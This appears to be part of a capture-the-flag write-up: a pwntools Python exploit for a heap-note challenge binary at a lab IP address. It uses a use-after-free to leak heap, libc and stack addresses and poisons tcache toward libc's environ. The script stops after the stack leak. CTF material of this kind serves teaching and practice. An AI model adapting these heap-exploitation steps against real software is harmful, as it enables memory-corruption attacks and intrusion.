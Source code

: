 ### Full Exploit

```python
from pwn import *

context.binary = binary = ELF('./tryanote_patched',checksec=False)
libc = ELF('libc.so.6',checksec=False)

def create(size, data):
        p.sendlineafter(b'>>', b'1')
        p.sendlineafter(b'Enter entry size:\n', str(size).encode())
        p.sendlineafter(b'Enter entry data:\n', data)

def read(idx):
        p.sendlineafter(b'>>', b'2')
        p.sendlineafter(b'Enter entry index:\n', str(idx).encode())

        return p.recvline()[:-1]

def update(idx, data):
        p.sendlineafter(b'>>', b'3')
        p.sendlineafter(b'Enter entry index:\n', str(idx).encode())
        p.sendlineafter(b'Enter data:\n', data)

def delete(idx):
        p.sendlineafter(b'>>', b'4')
        p.sendlineafter(b'Enter entry index:\n', str(idx).encode())


#p = process()
p = remote('10.10.26.107', 5001)

create(0x20, b'AAAA')
create(0x500, b'BBBB')
create(0x20, b'CCCC')

delete(0)

heap_base = u64(read(0).ljust(8, b'\x00')) << 12
info(f'heap base: {hex(heap_base)}')

delete(1)

libc_leak = u64(read(1).ljust(8, b'\x00'))
info(f'libc leak: {hex(libc_leak)}')

libc.address = libc_leak - 0x219ce0
info(f'libc base: {hex(libc.address)}')

create(0x50, b'aaaa')
create(0x50, b'bbbb')

delete(3)
delete(4)

update(4, p64(heap_base >> 12 ^ (libc.symbols.environ-0x10)))

create(0x50, b'cccc')
create(0x50, b'd' * 0xf)

read(6)
stack_leak = u64(p.recvline()[:-1].ljust(8, b'\x00'))
info(f'stack leak: {hex(stack_leak)}')
```